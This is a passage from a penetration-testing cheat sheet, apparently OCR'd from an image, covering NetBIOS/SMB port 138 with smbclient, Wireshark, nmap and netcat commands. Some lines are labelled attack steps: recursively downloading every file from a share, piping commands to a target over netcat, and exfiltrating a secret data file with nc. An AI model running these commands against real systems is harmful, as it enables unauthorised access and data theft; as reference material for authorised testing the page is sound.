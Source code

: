     ```bash
    smbclient //<target_ip>/<share> mask "" recurse prompt mget *
    ```
*   **Broadcast Message Sending:** Sends a broadcast message to all devices on the network.

    ```bash
    echo "Hello network!" | smbclient -M <broadcast_address>
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "udp port 138"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 138
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 138
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 138 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 138
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 138 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple tests to verify port service is running and responding.
